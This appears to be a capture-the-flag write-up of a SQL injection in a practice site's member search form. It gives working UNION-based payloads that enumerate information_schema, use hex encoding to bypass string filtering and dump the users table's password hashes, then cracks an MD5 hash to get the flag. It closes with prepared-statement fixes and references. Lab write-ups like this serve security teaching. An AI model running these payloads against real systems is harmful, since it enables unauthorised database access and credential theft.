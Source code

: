 # Member SQL injection

## Vulnerability

* Go to `members` category
* Test form for sql injection and see that all users are returned
```sql
1 or 1=1 -- always true
```
* In the form submit the following which will retrieve database table names
```sql
null union select null,table_name from information_schema.tables
```
* List table `users` (we use the hex value `0x7573657273` since we can't
 use a string) columns
```sql
null union select null,column_name from information_schema.columns where
 table_name=0x7573657273
```
* Select `Commentaire` and `countersign` in `users` table
```sql
null union select Commentaire,countersign from users 
```
* See output
```
Commentaire: ????? ????????????? ?????????
countersign : e083b24a01c483437bcf4a9eea7c1b4d

Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and
 it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28
``` 
* Go to https://md5hashing.net/hash/md5/5ff9d0165b4f92b14994e5c685cdce28
* MD5 `5ff9d0165b4f92b14994e5c685cdce28` <-> `FortyTwo`
* `fortytwo` <-> SHA256
 `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
 
## Attack

A SQL injection attack consists of insertion or “injection” of a SQL query via 
the input data from the client to the application. 

## Fix
* Use prepared Statements (with Parameterized Queries)
* Avoid dynamically construct a SQL query. Don't simply concatenate strings
 including user inputs to construct SQL query
* Validate parameters from the client 
 
## Reference
https://portswigger.net/web-security/sql-injection/union-attacks
https://en.wikipedia.org/wiki/Information_schema
https://dev.mysql.com/doc/refman/5.7/en/information-schema-tables-table.html
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
